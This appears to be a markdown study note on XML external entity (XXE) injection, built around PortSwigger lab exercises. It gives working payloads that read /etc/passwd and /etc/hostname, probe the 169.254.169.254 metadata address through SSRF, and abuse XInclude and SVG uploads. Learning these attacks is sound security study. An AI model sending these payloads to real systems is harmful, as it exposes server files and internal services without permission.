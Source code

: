 ## XXE

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.


> XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared.
> 
> External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

##  document type definition
> DTD Contains the declaration of what should contain in the XML Document structure kike the data values it contains and other value.
> The DTD is always accomplained with a DOCTYPE Element at the start of the XML document.
> If the DTD is self-contained to the documet itself then its called as **internal DTD**
> (Or) If its loaded from external then its called as **External DTD**


## XML custom entities
````
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>"
````
> This definition means that any usage of the entity reference &myentity; within the XML document will be replaced with the defined value: "my entity value"
## XML external entities
> The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:.
````
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
````
#### Exploiting XXE to retrieve files
To perform an XXE injection attack
1. Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
````
General request:
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>

Performing XXE attack to retrive "/etc/passwd" file from the system by the following command:-
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
````
### Exploiting XXE to perform SSRF attacks
In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure.

**Reference**
````
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
````
**Implementation**
````
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
The above "169.254.169.254" is can be the  IP address of the internal system/ IP adress of the website 
````

### XInclude attacks
Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element. However, you might be able to use XInclude instead. XInclude is a part of the XML specification that allows an XML document to be built from sub-documents.
**Reference:-**
````
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
````
**Implementation:-**
````
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
usualy set the above payload to a product id parameter.
````
### [XXE attacks via file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
````
1. Create a local SVG image with the following content:
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM 
"file:///etc/hostname" > ]><svg width="128px"
height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" 
version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
2. Post a comment on a blog post, and upload this image as an avatar.
3. When you view your comment, you should see the contents of the /etc/hostname file in your image. Use the "Submit solution" button to submit the value of the server hostname.
````
**References:-**

https://portswigger.net/web-security/xxe

https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

https://shreyapohekar.com/blogs/xxe-simplified-the-concept-attacks-and-mitigations/

